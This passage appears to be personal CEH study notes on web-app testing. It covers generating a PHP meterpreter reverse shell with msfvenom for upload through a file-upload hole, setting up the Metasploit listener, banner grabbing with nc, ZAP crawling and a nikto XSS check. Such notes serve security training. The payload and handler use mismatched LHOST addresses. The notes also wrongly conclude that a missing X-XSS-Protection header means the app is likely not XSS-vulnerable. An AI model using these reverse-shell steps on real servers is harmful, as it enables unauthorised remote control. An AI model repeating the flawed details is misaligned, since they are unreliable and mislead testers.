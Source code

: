         ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%207.png)
        
- File Upload Vulnerability:
    1. Upload a meterpreter reverse shell
        
        `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=1234 -f raw -o shell.php`
        
        Also make sure to run `msfconsole`
        
        `use exploit/multi/handler`
        
        `set payload php/meterpreter/reverse_tcp`
        
        `set LHOST 10.10.1.10`
        
        `set LPORT 1234`
        
        `run`
        
- Banner Grabbing: (you can get Etag, Server= HTTP server, X-Powered-By = ASP.NET)
    - Run `nc -v test.com 80`
        
        `GET / HTTP/1.0`
        
- Perform Web Crawling (get the number of images, etc)
    - Run `zaproxy`
    - Run an Automated Scan and once it’s done look at the left panel,  Expand Sites → test.com→ images
- Perform XSS vuln test:
    - `nikto -h {}` ← if “The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS” then it’s likely the application is not vulnerable to an XSS attack
        
        ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%208.png)
        